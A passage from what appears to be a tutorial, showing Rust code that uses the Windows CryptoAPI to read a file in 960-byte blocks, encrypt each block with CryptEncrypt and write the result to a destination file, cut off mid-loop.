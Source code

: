 ``` rust
        FILE_SHARE_READ,
        null_mut(),
        OPEN_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        null_mut(),
    );

```


We want to create a readable handle to the source file and a writable for the destination file. When we read from the source file into the buffer, we can encrypt the buffer and then write back to the destination file.


``` rust
    let mut block_len: u32 = 960;                   // Encrypting block length, 192 * 5
    let mut buffer_len: u32 = 960;                  // Reading buffer length, 192 * 5

    let mut pb_buffer: Vec<u8> = Vec::new();        // allocate write buffer
    pb_buffer.resize(buffer_len as usize, 0u8);     

    let mut EOF = 0;                                // end of file, loop until reach the end
    let mut count = 0;
    while EOF == 0 {
        if ReadFile(                                // Read 960 bytes (block length) into the buffer each time
            source_handle,
            pb_buffer.as_ptr() as *mut _,
            block_len,
            &mut count,
            null_mut(),
        ) == 0
        {
            println!("Error reading");
            break;
        }
        println!("count {}", count);
        if count < block_len {                      // if number of bytes read is less than block length, we reach the EOF
            EOF = 1;
        }

        if CryptEncrypt(                            // encrypt the buffer
            h_key,
            0,
            EOF,
            0,
            pb_buffer.as_ptr() as *mut u8,
            &mut count,
            buffer_len,
        ) == 0
        {
            println!("Fail to encrypt 0x{:x}", GetLastError());
            break;
        }

        if WriteFile(                               // Write it back into the destination file 
            dest_handle,
            pb_buffer.as_ptr() as *const _,
            count,
            &mut count,
            null_mut(),
        ) == 0
        {
```